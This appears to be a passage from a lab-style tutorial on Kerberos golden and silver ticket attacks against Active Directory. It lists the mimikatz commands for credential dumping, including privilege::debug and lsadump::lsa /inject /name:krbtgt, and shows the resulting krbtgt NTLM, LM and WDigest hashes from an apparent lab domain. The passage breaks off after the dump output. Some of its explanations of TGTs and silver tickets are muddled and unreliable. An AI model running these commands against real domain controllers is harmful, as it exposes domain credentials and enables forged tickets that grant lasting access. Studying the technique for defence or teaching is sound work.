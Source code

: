 ### KRBTGT Overview 

In order to fully understand how these attacks work you need to understand what the difference between a KRBTGT and a TGT is. A KRBTGT is the service account for the KDC this is the Key Distribution Center that issues all of the tickets to the clients. If you impersonate this account and create a golden ticket form the KRBTGT you give yourself the ability to create a service ticket for anything you want. A TGT is a ticket to a service account issued by the KDC and can only access that service the TGT is from like the SQLService ticket.

### Golden/Silver Ticket Attack Overview 

A golden ticket attack works by dumping the ticket-granting ticket of any user on the domain this would preferably be a domain admin however for a golden ticket you would dump the krbtgt ticket and for a silver ticket, you would dump any service or domain admin ticket. This will provide you with the service/domain admin account’s SID or security identifier that is a unique identifier for each user account, as well as the NTLM hash. You then use these details inside of a mimikatz golden ticket attack in order to create a TGT that impersonates the given service account information.

### Dump the krbtgt hash 

1. `cd downloads && mimikatz.exe` – navigate to the directory mimikatz is in and run mimikatz
2. `privilege::debug` – ensure this outputs `privilege ’20’ ok`
3. `lsadump::lsa /inject /name:krbtgt` – This will dump the hash as well as the security identifier needed to create a Golden Ticket. To create a silver ticket you need to change the /name: to dump the hash of either a domain admin account or a service account such as the SQLService account.

```bash
mimikatz # lsadump::lsa /inject /name:krbtgt 
Domain : CONTROLLER / S-1-5-21-432953485-3795405108-1502158860 
                                                               
RID  : 000001f6 (502)                                          
User : krbtgt                                                  
                                                               
 * Primary                                                     
    NTLM : 72cd714611b64cd4d5550cd2759db3f6                    
    LM   :                                                     
  Hash NTLM: 72cd714611b64cd4d5550cd2759db3f6                  
    ntlm- 0: 72cd714611b64cd4d5550cd2759db3f6                  
    lm  - 0: aec7e106ddd23b3928f7b530f60df4b6 
                                              
 * WDigest                                    
    01  d2e9aa3caa4509c3f11521c70539e4ad      
    02  c9a868fc195308b03d72daa4a5a4ee47      
    03  171e066e448391c934d0681986f09ff4      
    04  d2e9aa3caa4509c3f11521c70539e4ad      
    05  c9a868fc195308b03d72daa4a5a4ee47      
    06  41903264777c4392345816b7ecbf0885      
    07  d2e9aa3caa4509c3f11521c70539e4ad      
    08  9a01474aa116953e6db452bb5cd7dc49      
    09  a8e9a6a41c9a6bf658094206b51a4ead      
    10  8720ff9de506f647ad30f6967b8fe61e 
    11  841061e45fdc428e3f10f69ec46a9c6d
    12  a8e9a6a41c9a6bf658094206b51a4ead
    13  89d0db1c4f5d63ef4bacca5369f79a55
    14  841061e45fdc428e3f10f69ec46a9c6d
    15  a02ffdef87fc2a3969554c3f5465042a
    16  4ce3ef8eb619a101919eee6cc0f22060
    17  a7c3387ac2f0d6c6a37ee34aecf8e47e
    18  085f371533fc3860fdbf0c44148ae730
    19  265525114c2c3581340ddb00e018683b
    20  f5708f35889eee51a5fa0fb4ef337a9b
    21  bffaf3c4eba18fd4c845965b64fca8e2 
    22  bffaf3c4eba18fd4c845965b64fca8e2
    23  3c10f0ae74f162c4b81bf2a463a344aa
```